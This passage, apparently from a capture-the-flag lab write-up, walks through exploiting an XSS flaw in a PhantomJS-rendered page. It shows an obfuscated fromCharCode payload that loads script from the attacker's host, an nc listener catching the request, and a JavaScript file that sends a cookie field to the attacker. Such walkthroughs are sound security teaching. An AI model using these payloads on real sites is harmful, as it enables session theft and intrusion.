 

Now I make a payload:



    <img src="x` `<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>"` `>`



That didn't work either, but after a ton of tinkering, I got this to
work, in that I saw a connection on `nc`:



    <img src="/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />





    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.25.
    Ncat: Connection from 10.10.10.25:43706.
    GET /0xdf.js HTTP/1.1
    Accept: */*
    Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,*
    Host: 10.10.14.30



Now that it is trying to get javascript from me to run, I will give it
some. I'll make a file that waits for the page to load, and then
executes a request to me:



    root@kali# cat 0xdf.js 
    window.addEventListener('DOMContentLoaded', function(e) {
        window.location = "http://10.10.14.30:81/?cookie=" + encodeURI(document.getElementsByName("cookie")[0].value)
    })



I'll re-submit the same payload, with `python` acting as a webserver,
and `nc` listening on 81. It hits the webserver:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.25 - - [04/Sep/2019 18:10:26] "GET /0xdf.js HTTP/1.1" 200 -

